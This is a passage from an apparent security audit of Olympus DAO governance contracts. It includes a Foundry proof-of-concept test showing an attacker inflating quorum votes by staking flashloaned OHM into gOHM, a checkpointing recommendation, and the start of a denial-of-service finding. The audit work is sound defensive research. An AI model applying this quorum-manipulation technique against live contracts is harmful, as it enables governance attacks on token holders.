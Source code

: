 ```solidity
        IOlympustStaking olympusStaking = IOlympustStaking(0xB63cac384247597756545b500253ff8E607a8020);
        IERC20 ohm = IERC20(0x64aa3364F17a4D01c6f1751Fd97C2BD3D7e7f1D5);
        address attacker = makeAddr("attacker");
        deal(address(ohm), attacker, 200_000 * 10e9); // AUDIT attacker takes 200k OHM token flashloan. Tokens are dealt for simplicity, tokens can be pulled from 4 identified sources

        // Pre wrap quorum votes
        (bool success, bytes memory data) =
            address(governorBravoDelegator).call(abi.encodeCall(GovernorBravoDelegate.getQuorumVotes, ()));
        assertTrue(success, "Failed to get quorum votes once");
        uint256 quorumVotes = abi.decode(data, (uint256));

        // Attacker wraps OHM to gOHM
        vm.startPrank(attacker);
        ohm.approve(address(olympusStaking), 200_000 * 10e9);
        olympusStaking.stake(attacker, 200_000 * 10e9, false, true); // AUDIT rebasing = false && claim = true to receive gOHM
        vm.stopPrank();

        // Post wrap quorum votes
        (success, data) = address(governorBravoDelegator).call(abi.encodeCall(GovernorBravoDelegate.getQuorumVotes, ()));
        assertTrue(success, "Failed to get quorum votes twice");
        uint256 quorumVotesAfter = abi.decode(data, (uint256));

        // Assert quorum votes can be raised
        assertLt(quorumVotes, quorumVotesAfter, "Quorum votes wasn't manipulated");

        // Assert quorum votes have been moved around 1.1%
        assertGt(quorumVotesAfter, quorumVotes * 110 / 100, "Bound 1");
        assertLt(quorumVotesAfter, quorumVotes * 112 / 100, "Bound 2");
    }
}
```

#### Recommendation

The protocol should consider implementing a checkpoint mechanism for `gOHM.totalSupply`, similar to what has been done for `gOHM` and its voting power calculations. This way, the protocol can defend itself from changes to `gOHM.totalSupply` within the same block, mitigating the shown issue altogether.

#### Developer Response


### 3. Medium - Denial of service during emergency execution

[GovernanceBravoDelegate.execute](https://github.com/OlympusDAO/olympus-v3/blob/master/src/external/governance/GovernorBravoDelegate.sol#L373) can be DOS in state of emergency, due to lack of check for emergency proposal.
